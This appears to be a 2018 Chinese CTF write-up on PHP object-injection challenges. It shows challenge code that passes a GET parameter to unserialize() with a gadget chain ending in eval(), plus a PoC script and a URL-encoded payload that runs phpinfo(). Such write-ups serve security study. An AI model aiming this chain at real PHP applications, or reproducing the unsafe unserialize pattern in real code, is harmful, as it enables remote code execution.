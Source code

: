 ```yaml
---
layout: post
title: php反序列化的两道题
author: Qiqi
date: 2018-5-19
header-img: img/home-bg-art.jpg
catalog: true
tag:
   - PHP
   - Web安全
---
```


# PHP反序列化的两道题

## easy_unserialize

详细wp在我的另一篇博客里讲解的很详细了

```
http://codeqi.top/2018/05/19/MiniLCTF-Writeup/
```

## 练习2

题目：

```php
<?php
class test1
{
    public $varr;
    function __construct()
    {
        $this->varr = "index.php";
    }
    function __destruct()
    {
        if(file_exists($this->varr)){
            echo "<br />文件".$this->varr."存在<br />";
        }
    }
}

class test2
{
    public $varr;
    public $obj;
    function __construct()
    {
        $this->varr='123456';
        $this->obj=null;
    }
    function __toString()
    {
        $this->obj->execute();
        return $this->varr;
    }
    function __destruct()
    {
        echo "<br />这是f2的析构函数<br />";
    }
}

class test3
{
    public $varr;
    function execute()
    {
        eval($this->varr);
    }
    function __destruct()
    {
        echo "<br />这是f3的析构函数<br />";
    }
}

    if (isset($_GET['x'])) {
    unserialize($_GET['x']);
}
?>
```

`test1`类中有一个`echo`，可以利用它来echo一个`test2`类的实例，从而调用`test2`类中的`__toString()`魔法函数

`__toString()`中调用了`test3`类中的`execute()`函数

`execute()`函数执行了`eval()`函数，可以执行命令

poc

```php
<?php
class test1
{
      public $varr;
      function __construct()
      {
          $this->varr = new test2();
      }
}
class test2
{
      public $varr;
      public $obj;
      function __construct()
      {
          $this->varr='123456';
          $this->obj=new test3();
      }
}
class test3
{
      public $varr;
      public function __construct()
      {
          $this->varr = 'phpinfo();';
      }
}
$a = new test1();
echo urlencode(serialize($a));
?>
```

运行得到

```
O%3A5%3A%22test1%22%3A1%3A%7Bs%3A4%3A%22varr%22%3BO%3A5%3A%22test2%22%3A2%3A%7Bs%3A4%3A%22varr%22%3Bs%3A6%3A%22123456%22%3Bs%3A3%3A%22obj%22%3BO%3A5%3A%22test3%22%3A1%3A%7Bs%3A4%3A%22varr%22%3Bs%3A10%3A%22phpinfo%28%29%3B%22%3B%7D%7D%7D
```

payload

```
x=O%3A5%3A%22test1%22%3A1%3A%7Bs%3A4%3A%22varr%22%3BO%3A5%3A%22test2%22%3A2%3A%7Bs%3A4%3A%22varr%22%3Bs%3A6%3A%22123456%22%3Bs%3A3%3A%22obj%22%3BO%3A5%3A%22test3%22%3A1%3A%7Bs%3A4%3A%22varr%22%3Bs%3A10%3A%22phpinfo%28%29%3B%22%3B%7D%7D%7D
```

![](https://ws1.sinaimg.cn/large/006Vib6xly1frefn5iwplj30yu0nw45s.jpg)
